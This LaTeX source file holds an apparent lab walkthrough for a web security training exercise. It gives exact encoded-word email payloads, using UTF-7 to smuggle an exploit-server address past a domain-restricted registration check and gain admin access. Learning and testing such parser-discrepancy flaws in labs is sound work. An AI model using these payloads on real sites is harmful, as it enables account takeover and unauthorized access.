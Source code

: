 \documentclass[11pt,a4paper]{article}
\begin{document}
\begin{enumerate}
    \item Open Register and try \texttt{foo@exploit-server.net}. Confirm that registration is blocked because the permitted domain is \texttt{ginandjuice.shop}.
    \item Test the following ISO-8859-1 address and observe the security block: \url{=?iso-8859-1?q?=61=62=63?=foo@ginandjuice.shop}.
    \item Test the UTF-8 variation \url{=?utf-8?q?=61=62=63?=foo@ginandjuice.shop}; observe that it is also blocked.
    \item Test \url{=?utf-7?q?&AGEAYgBj-?=foo@ginandjuice.shop}. This variation passes the initial security check.
    \item Register using \url{=?utf-7?q?attacker&AEA-[YOUR-EXPLOIT-SERVER-ID]&ACA-?=@ginandjuice.shop}, replacing the placeholder with your exploit-server ID.
    \item Open the Email client and follow the confirmation link. The validation component accepts the apparent \texttt{ginandjuice.shop} domain, while the mail-processing component interprets the recipient as the exploit-server address.
    \item Log in with the new account, open the Admin panel, and delete \texttt{carlos}.
\end{enumerate}
\end{document}
